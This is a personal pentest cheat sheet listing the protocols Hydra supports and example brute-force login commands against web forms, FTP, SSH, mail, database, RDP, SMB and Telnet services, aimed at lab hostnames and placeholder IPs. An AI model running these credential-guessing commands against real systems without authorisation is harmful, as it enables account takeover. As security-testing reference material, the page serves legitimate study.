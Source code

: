 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

hydra

Available Hydra Protocols

~~~
Asterisk, AFP, Cisco AAA, Cisco auth, Cisco enable, CVS, Firebird, FTP,  HTTP-FORM-GET, HTTP-FORM-POST, HTTP-GET, HTTP-HEAD, HTTP-POST, HTTP-PROXY, HTTPS-FORM-GET, HTTPS-FORM-POST, HTTPS-GET, HTTPS-HEAD, HTTPS-POST, HTTP-Proxy, ICQ, IMAP, IRC, LDAP, MS-SQL, MYSQL, NCP, NNTP, Oracle Listener, Oracle SID, Oracle, PC-Anywhere, PCNFS, POP3, POSTGRES, RDP, Rexec, Rlogin, Rsh, RTSP, SAP/R3, SIP, SMB, SMTP, SMTP Enum, SNMP v1+v2+v3, SOCKS5, SSH (v1 and v2), SSHKEY, Subversion, Teamspeak (TS2), Telnet, VMware-Auth, VNC and XMPP
~~~

Hydra Examples
 
HTTP-POST-FORM

~~~bash
hydra -L /usr/share/brutex/wordlists/simple-users.txt -P /usr/share/brutex/wordlists/password.lst domain.htb http-post-form "/path/index.php:name=^USER^&password=^PASS^&enter=Sign+in:Login name or password is incorrect" -V
~~~

HTTPS-POST-FORM

~~~bash
hydra -L /usr/share/brutex/wordlists/simple-users.txt -P /usr/share/brutex/wordlists/password.lst domain.htb  https-post-form "/path/index.php:name=^USER^&password=^PASS^&enter=Sign+in:Login name or password is incorrect" -V
~~~

HTTP-GET

~~~bash
hydra -L /usr/share/brutex/wordlists/simple-users.txt -P /usr/share/brutex/wordlists/password.lst sizzle.htb.local http-get /certsrv/
~~~

HTTPS-GET

~~~bash
hydra -L /usr/share/brutex/wordlists/simple-users.txt -P /usr/share/brutex/wordlists/password.lst sizzle.htb.local https-get /certsrv/
~~~

FTP

~~~bash
hydra -l user -P passlist.txt ftp://10.10.134.169
~~~

SSH

~~~bash
hydra -l <username> -P <full path to pass> 10.10.134.169 -t 4 ssh
~~~

IMAP

~~~bash
hydra -l USERNAME -P /path/to/passwords.txt -f <IP> imap -V

hydra -S -v -l USERNAME -P /path/to/passwords.txt -s 993 -f <IP> imap -V
~~~

MYSQL

~~~bash
hydra -L usernames.txt -P pass.txt <IP> mysql
~~~

POP

~~~bash
hydra -l USERNAME -P /path/to/passwords.txt -f <IP> pop3 -V

hydra -S -v -l USERNAME -P /path/to/passwords.txt -s 995 -f <IP> pop3 -V
~~~

POSTGRESQL

~~~bash
hydra -L /root/Desktop/user.txt –P /root/Desktop/pass.txt <IP> postgres
~~~

RDP

~~~bash
hydra -V -f -L <userslist> -P <passwlist> rdp://<IP>
~~~

SMB

~~~bash
hydra -l Administrator -P words.txt 192.168.1.12 smb -t 1
~~~

SMTP

~~~bash
hydra -l <username> -P /path/to/passwords.txt <IP> smtp -V

hydra -l <username> -P /path/to/passwords.txt -s 587 <IP> -S -v -V
~~~

Telnet

~~~bash
hydra -l root -P passwords.txt [-t 32] <IP> telnet
~~~


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
